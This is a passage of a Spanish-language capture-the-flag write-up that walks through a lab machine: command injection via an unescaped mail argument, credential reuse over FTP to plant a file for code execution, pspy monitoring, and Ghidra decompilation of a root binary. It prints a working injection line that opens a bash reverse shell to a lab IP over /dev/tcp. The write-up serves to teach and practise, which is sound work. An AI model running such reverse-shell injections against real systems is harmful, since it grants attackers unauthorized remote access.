 Basicamente nos dice que la funcion del escape no funciona como deberia y que por lo tanto tenemos la posibilidad de ejecutar comandos. La estructura del comando quedaria más o menos asi
```
# /usr/bin/mail -s "blablabla" ; bash -c 'bash -i >& /dev/tcp/10.10.14.30/443 0>&1';
```

##### Injecting data into the database to achieve remote command execution (RCE) [User Pivoting]  
Si esperamos la **reverse shell** vemos que no nos llega. Bien, podemos volver al script y vemos que realmente la condicion quizás no se esta cumpliendo y por lo tanto el bloque de codigo donde se ejecuta la llamada al sistema no se esta aconteciendo.  Podemos intentar listar el contenido en el */etc/* que pertenece al usuario **ftpadm** denuevo, ya que ahora con el usuario que disponemos quizás podemos listar los archivos. Vemos las siguientes credenciales:
![[Pasted image 20230701103323.png]]

Ahora con esta contraseña nos podemos conectar por FTP denuevo e intentar antendar ahora si contra el **path** que contempla los archivos para entrar al bloque de codigo que deseamos:
![[Pasted image 20230701103344.png]]

Con la capacidad de escritura en esta carpeta, subimos un archivo para acontecer el **RCE** y que nos llegue la **Reverse Shell**.

---------
#### Binary Analysis - dbmsg [GHIDRA]  
En este punto podemos intentar subir **Pspy** para analizar los comandos que se esten ejecutando en intervalos regulares de tiempo pero tenemos que considerar agregar la flag **-f** dado que hay configuraciones en el **mount** que nos impide ver procesos externos a los nuestros y vemos uno muy interesante:
![[Pasted image 20230701105830.png]]

Vemos que hay un binario en */usr/bin/dbmsg* que se esta ejecutando. Lo trasladamos a nuestra maquina para analizarlo con **Ghidra** o con **Radare2**. En nuestro caso usaremos **Ghidra**.

------
#### Reversing  
El **main()** del binario es el siguiente:
```c++
void main(void)

{
  __uid_t getUser;
  time_t curr_time;
  
  getUser = geteuid();
  if (getUser != 0) {
    fwrite("This program must be run as root.\n",1,0x22,stderr);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  curr_time = time((time_t *)0x0);
  srand((uint)curr_time);
  process_data();
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
